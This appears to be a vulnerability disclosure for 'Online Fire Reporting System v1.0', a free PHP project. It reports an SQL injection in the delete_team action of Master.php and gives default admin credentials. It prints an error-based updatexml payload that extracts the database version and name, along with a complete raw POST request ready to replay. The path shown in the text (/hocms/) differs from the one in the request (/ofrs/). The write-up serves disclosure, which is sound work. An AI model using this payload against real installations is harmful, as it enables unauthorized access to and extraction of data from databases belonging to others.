 # Online Fire Reporting System v1.0  has SQL injection vulnerability

Login account: admin/admin123

vendor : https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_team

![image-20220522140932086](https://s2.loli.net/2022/05/22/PvdoHJIiK3z2sVS.png)

Vulnerability location: /hocms/classes/Master.php?f=delete_team,id

[+]Payload: id=2' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /ofrs/classes/Master.php?f=delete_team HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://localhost
Connection: close
Referer: http://localhost/ofrs/classes/Master.php?f=delete_team
Cookie: UM_distinctid=17edc5ecd369-032851db15155a-4c3e237c-144000-17edc5ecd374b2; CNZZDATA585346=cnzz_eid%3D1638517557-1644367242-%26ntime%3D1644367242; PHPSESSID=0nngc9rh9jt0i53ha9ueig8r9c
Upgrade-Insecure-Requests: 1

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image-20220522124909156](https://s2.loli.net/2022/05/22/rwIaBFNYTug4keG.png)



![image-20220522132315454](https://s2.loli.net/2022/05/22/zXb5D7axf1SQhWC.png)

